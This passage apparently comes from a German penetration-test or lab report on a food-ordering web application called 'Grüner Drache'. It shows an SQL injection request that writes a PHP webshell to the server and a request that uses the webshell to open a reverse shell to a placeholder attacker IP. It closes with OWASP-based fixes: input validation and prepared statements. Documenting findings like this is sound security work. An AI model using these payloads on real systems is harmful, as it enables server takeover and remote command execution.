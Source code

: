 \begin{listing}[!ht]
\begin{verbatim}
POST /routers/cancel-order.php HTTP/1.1 
Host: 10.0.68.105 
[...]
id=5+UNION+Select+null,null,null,+"<%3fphp+system($_REQUEST['cmd'])%3b+%3f>",+null,null, null,null,null+into+outfile+'/var/www/food-ordering-system/shell5.php'&status= Cancelled+by+Customer&payment_type=Wallet&action=
\end{verbatim}
\caption{Webshell}
\label{listing:drache:webshell}
\end{listing}

\begin{listing}[!ht]
\begin{verbatim}
GET /shell5.php?cmd=php+-r+'$sock%3dfsockopen("<Angreifer-IP>",9001)%3bexec("/bin/sh+-i +<%263+>%263+2>\%263")%3b' HTTP/1.1
Host: 10.0.68.105 
[...]   
\end{verbatim}
\caption{Reverse Shell insertion}
\label{listing:drache:reverse-shell}
\end{listing}



\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/02_gruener_drache_proof.png}
    \caption{Proof für die Webanwendung Grüner Drache}
    \label{fig:02_gruener_drache_proof}
\end{figure}

\subsection*{Empfehlungen} 
\begin{itemize}
    \item Eingabevalidierung: Validieren und Escapen sie alle Nutzereingaben, um Injection Angriffe zu verhindern (Siehe \cite{owaspInputValidation}).
    \item Prepared SQL-Statements: Mit Hilfe von Prepared SQL-Statements können SQL-Injection Angriffe verhindert werden, da dadurch Eingaben korrekt validiert und escaped werden (Siehe \cite{owaspSQLInjectionPrevention}).
\end{itemize}
